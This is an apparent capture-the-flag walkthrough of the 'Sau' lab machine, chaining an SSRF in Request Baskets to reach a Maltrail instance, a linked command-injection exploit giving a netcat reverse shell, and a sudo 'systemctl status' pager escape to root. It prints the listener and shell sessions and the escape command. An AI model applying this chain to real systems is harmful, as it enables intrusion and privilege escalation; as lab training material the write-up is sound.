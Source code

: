 # Sau

<figure><img src="../../.gitbook/assets/Sau.png" alt=""><figcaption></figcaption></figure>

\`Sau\` is an Easy Difficulty Linux machine that features a \`Request Baskets\` instance that is vulnerable to Server-Side Request Forgery (SSRF) via \`\[CVE-2023-27163]\(https://nvd.nist.gov/vuln/detail/CVE-2023-27163)\`. Leveraging the vulnerability we are to gain access to a \`Maltrail\` instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as \`puma\`. A \`sudo\` misconfiguration is then exploited to gain a \`root\` shell.



lets start with nmap  :&#x20;

```
nmap -A 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 21:04 +03
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 25 Jun 2024 18:05:45 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 25 Jun 2024 18:05:14 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 25 Jun 2024 18:05:15 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=6/25%Time=667B06DA%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:14\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:15\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Tue,\x2025\x20Jun\x202024\x2018:05:45\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.32 seconds
```

so ports are open are 22,80,55555

if 80 filtered lets begin with 55555 page because has 200 ok response

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

lets create a basket

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

now it will appear like this with token: lBhANDWeEBEUE-UcF7erL6QYkcuzvr1ga0ZMrytVZi0a

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

here is the page after creation

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

lets add by this in menu bar click it

to add forward url

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

apply by this command

```
curl http://10.10.11.224:55555/8fn2c0t
```

```
┌─[✗]─[cybersoldier@parrot]─[~]
└──╼ $sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 36886
GET / HTTP/1.1
Host: 10.10.16.9:80
User-Agent: curl/8.8.0
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip
```

if we try the 80 filtered port we can notice its SSRF vulnerability

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

if we refresh the page&#x20;

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

we can notice **Maltrail (v0.53)**

lets now discover exploit or CVE for it

I found

{% embed url="https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87" %}

exploit

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit.git" %}

after reading the exploit in github url and make it reverse shell

```
┌─[cybersoldier@parrot]─[~]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 59224
$ ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins		 thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf	       sensor.py
README.md     html    misc		       server.py
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

reading user.txt flag

```
$ pwd
pwd
/opt/maltrail
$ cd ..
cd ..
$ ls
ls
maltrail
$ cd ..
cd ..
$ ls
ls
bin   data  etc   lib	 lib64	 lost+found  mnt  proc	run   srv  tmp	vagrant
boot  dev   home  lib32  libx32  media	     opt  root	sbin  sys  usr	var
$ cd home
cd home
$ ls
ls
puma
$ cd puma
cd puma
$ ls
ls
user.txt
$ cat user.txt
cat user.txt
b512bbf2ecc3887************
```

if we try sudo -l we found this

```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ 
```

this if you would like to read about vulnerability

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26604" %}

if hit ENTER then type !/bin/bash

we got the root

```
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/home/puma# 
```

then read root.txt flag

```
root@sau:/home/puma# cat /root/root.txt
cat /root/root.txt
f4d51f7a498c4b9c1**************
root@sau:/home/puma#
```
